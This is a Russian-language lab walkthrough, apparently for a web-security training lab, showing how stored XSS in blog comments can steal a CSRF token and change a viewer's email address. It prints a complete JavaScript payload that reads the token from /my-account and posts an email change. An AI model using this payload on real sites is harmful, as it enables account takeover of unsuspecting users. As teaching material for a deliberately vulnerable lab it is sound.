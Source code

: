 Использование межсайтового скриптинга для обхода защиты CSRF
XSS позволяет злоумышленнику делать практически все, что может делать на веб-сайте законный пользователь. Выполняя произвольный JavaScript в браузере жертвы, XSS позволяет вам выполнять широкий спектр действий, как если бы вы были пользователем-жертвой. Например, вы можете заставить жертву отправить сообщение, принять запрос на добавление в друзья, зафиксировать бэкдор в репозитории исходного кода или перевести немного биткоинов.

Некоторые веб-сайты позволяют вошедшим в систему пользователям менять свой адрес электронной почты без повторного ввода пароля. Если вы обнаружили уязвимость XSS на одном из этих сайтов, вы можете воспользоваться ею, чтобы украсть токен CSRF. С помощью токена вы можете изменить адрес электронной почты жертвы на тот, который вы контролируете. Затем вы можете запустить сброс пароля, чтобы получить доступ к учетной записи.

Этот тип эксплойта сочетает XSS (для кражи токена CSRF) с функциональностью, на которую обычно нацелен CSRF. В то время как традиционный CSRF является «односторонней» уязвимостью, когда злоумышленник может заставить жертву отправлять запросы, но не может видеть ответы, XSS обеспечивает «двустороннюю» связь. Это позволяет злоумышленнику как отправлять произвольные запросы, так и читать ответы, что приводит к гибридной атаке, которая обходит защиту от CSRF.

Примечание
Токены CSRF неэффективны против XSS, поскольку XSS позволяет злоумышленникам считывать значения токенов непосредственно из ответов.

Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Чтобы решить эту лабораторную задачу, воспользуйтесь уязвимостью, чтобы украсть токен CSRF, который затем можно использовать для изменения адреса электронной почты того, кто просматривает комментарии к записи блога.

Вы можете войти в свою учетную запись, используя следующие учетные данные:wiener:peter

Подсказка:
Вы не можете зарегистрировать адрес электронной почты, который уже занят другим пользователем. Если вы меняете свой адрес электронной почты во время тестирования эксплойта, используйте другой адрес электронной почты для финального эксплойта, который вы отправляете жертве.

1. Войдите в систему, используя предоставленные учетные данные. На странице учетной записи пользователя обратите внимание на функцию обновления адреса электронной почты.

![image](https://github.com/user-attachments/assets/03a01c4f-372d-442d-b715-c58762235be6)

2. Вам необходимо отправить запрос POST /my-account/change-email с параметром email.
В скрытом входе есть анти-CSRF-токен, называемый token.
Это означает, что вашему эксплойту необходимо будет загрузить страницу учетной записи пользователя, извлечь токен CSRF, а затем использовать токен для изменения адреса электронной почты жертвы.

3. Отправьте следующую полезную информацию в комментарии к блогу:

<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

4. Это заставит любого, кто просмотрит комментарий, отправить POST-запрос на изменение своего адреса электронной почты на test@test.com.
</script>
